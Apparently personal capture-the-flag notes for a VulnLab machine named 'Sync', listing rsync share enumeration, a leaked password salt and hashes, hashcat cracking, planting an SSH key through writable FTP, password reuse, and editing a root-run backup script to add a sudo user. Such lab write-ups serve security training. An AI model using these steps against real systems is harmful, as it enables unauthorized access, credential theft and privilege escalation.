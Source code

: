 ## User
* has ftp, http, rsync, ssh
* http is a simple login site
* ftp needs creds
* `rsync -av --list-only rsync://10.10.83.58:873` list shares
* `rsync -av rsync://<target>:873/httpd <output directory>` download files
* index.php of the site leaks how passwords are stored/used
	* `$hash = md5("$secure|$username|$password");`
	* `$secure = "6c4972f3717a5e881e282ad3105de01e";`
	* we have the salt from the secure var
* site db has admin and triss users
	* `admin:7658a2741c9df3a97c819584db6e6b3c`
	* `triss:a0de4d7f81676c3ea9eabcadfd2536f6`
	* need to get in a crackable format for hashcat
* Cracking salted md5 w hashcat
	* format: `hash:salt|user|`
	* `hashcat -m 10 -a 0 hashes wordlist`
	* `triss:gerald`
* can login to the site as triss but not ssh, logs into ftp
* FTP
	* had write access
	* manually added my ssh key as an authorized key to ssh in as triss
* jennifer has the same passwd so we can su to her
![[jennifer-home.png]]
![[triss-dashboard.png]]
## Root
* now as jennifer we see a backups folder in root w zip files
![[backups.png]]
* unzipping them reveals a copy of the shadow file
![[backup-contents.png]]
![[shadow.png]]
* the hash for sa is in a yescrypt format, and decodes to `sa:sakura`
### sa
* w `find / | grep backup` i found the backup.sh file
![[backup-sh-found.png]]
![[backup-script.png]]
* this is evidently what's populating the backups; probably has to be run as root if it can copy etc shadow
![[shadow-perms.png]]
* we can edit the script to make us a new root user
	* `useradd -m -s /bin/bash -G sudo lfgberg && echo 'lfgberg:password1' | chpasswd` will make a new superuser next time the script runs
![[vulnlab/sync/root-flag.png]]
